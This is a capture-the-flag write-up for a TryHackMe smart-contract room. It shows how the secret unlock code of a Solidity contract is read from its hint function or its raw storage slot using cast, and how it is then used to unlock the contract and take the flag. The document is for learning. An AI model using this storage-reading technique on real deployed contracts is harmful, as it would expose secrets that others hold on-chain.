



# 😵 Hackfinity: PassCode

* [PassCode](https://tryhackme.com/room/hfb1passcode)

## 🧩 Setup

1. Run following Commands to Get Information ☑️
```sh
RPC_URL=http://$TARGET:8545
API_URL=http://$TARGET
PRIVATE_KEY=$(curl -s ${API_URL}/challenge | jq -r ".player_wallet.private_key")
CONTRACT_ADDRESS=$(curl -s ${API_URL}/challenge | jq -r ".contract_address")
PLAYER_ADDRESS=$(curl -s ${API_URL}/challenge | jq -r ".player_wallet.address")
is_solved=`cast call $CONTRACT_ADDRESS "isSolved()(bool)" --rpc-url ${RPC_URL}`
echo "Check if is solved: $is_solved"
```

2. Create Directory and save everything into the files ☑️
```sh
mkdir -p Desktop/passcode
cd Desktop/passcode
echo $PRIVATE_KEY > private.txt
echo $CONTRACT_ADDRESS > contract.txt
echo $PLAYER_ADDRESS > player.txt
```

3. Browse URL: `http://$TARGET` 🕸️
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

contract Challenge {
    string private secret = "THM{}";
    bool private unlock_flag = false;
    uint256 private code;
    string private hint_text;
    
    constructor(string memory flag, string memory challenge_hint, uint256 challenge_code) {
        secret = flag;
        code = challenge_code;
        hint_text = challenge_hint;
    }
    
    function hint() external view returns (string memory) {
        return hint_text;
    }
    
    function unlock(uint256 input) external returns (bool) {
        if (input == code) {
            unlock_flag = true;
            return true;
        }
        return false;
    }
    
    function isSolved() external view returns (bool) {
        return unlock_flag;
    }
    
    function getFlag() external view returns (string memory) {
        require(unlock_flag, "Challenge not solved yet");
        return secret;
    }
}
```



## 🧑‍💻 Analyzing Code

4. `flag` is being set on construction.
```solidity
    constructor(string memory flag, string memory challenge_hint, uint256 challenge_code) {
        secret = flag;
        code = challenge_code;
        hint_text = challenge_hint;
    }
```

5. `getFlag()` function, will return the `flag` only if `unlock_flag` is `true`.
```solidity
    function getFlag() external view returns (string memory) {
        require(unlock_flag, "Challenge not solved yet");
        return secret;
    }
```

6. `unlock()` function sets the `unlock_flag` if input is equal to `code`.
```solidity
    function unlock(uint256 input) external returns (bool) {
        if (input == code) {
            unlock_flag = true;
            return true;
        }
        return false;
    }
```


## 3. 🧨 Exploitation

7. All You Need to Know:
    * For Exploitiong You need some tools, we use `cast`, You'll find the link in **References**.
    * You can execute public methods
        * You don't need **Gas Fee** For `view` functions.

8. As long as there is no clue directing to `code`. The `hint()` function seems a good place to start.
```solidity
    function hint() external view returns (string memory) {
        return hint_text;
    }
```

9. Run `cast` on `hint()` function to read the **Hint**. It should help us.
```sh
cast call $CONTRACT_ADDRESS "hint()(string)" --rpc-url ${RPC_URL}
# The code is ***
```

10. Response leaks the **`code`** but, we could do this without reading `hint()` function. Just read **slots** of smart contract by following command
```sh
cast storage $CONTRACT_ADDRESS 2 --rpc-url ${RPC_URL}
# 0x0000000000000000000000000000000000000000000000000000000000000***
# This is code in Hex mode!
```



11. Let's test the code on `unlock()` function and provide `code` as input, We'll provide **Private Key**. because we need to pay **Gas Fee**. 💸
```sh
cast send $CONTRACT_ADDRESS "unlock(uint256)(bool)" *** --rpc-url ${RPC_URL} --private-key $PRIVATE_KEY --legacy
# blockHash               0x17b728a7ed9431282716df16c6f472545885e2252a86b3c2d165d157d8912245
# blockNumber             7
# contractAddress         
# cumulativeGasUsed       23923
# effectiveGasPrice       1000000000
# from                    0x58815a23a5E64c332f944fE5Fb3cD6720B5550E9
# gasUsed                 23923
# logs                    []
# logsBloom               0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
# root                    
# status                  1 (success)
# transactionHash         0x75d89da6c7c972c33495733d4648f7b1571a91488d4e3d1fb1ba499979359558
# transactionIndex        0
# type                    0
# blobGasPrice            
# blobGasUsed             
# to                      0xf22cB0Ca047e88AC996c17683Cee290518093574
```



12. Check `isSolved()` function.
```sh
cast call $CONTRACT_ADDRESS "isSolved()(bool)" --rpc-url ${RPC_URL}
# true
```

13. Get The Flag ⛳️:
```sh
cast call $CONTRACT_ADDRESS "getFlag()(string)" --rpc-url ${RPC_URL}
# THM{w***_*******_***e}
```

15. Never Forget Having Fun 🙂🙃🙂!

## 📚 References

* [Cast Application](https://getfoundry.sh/cast/overview)
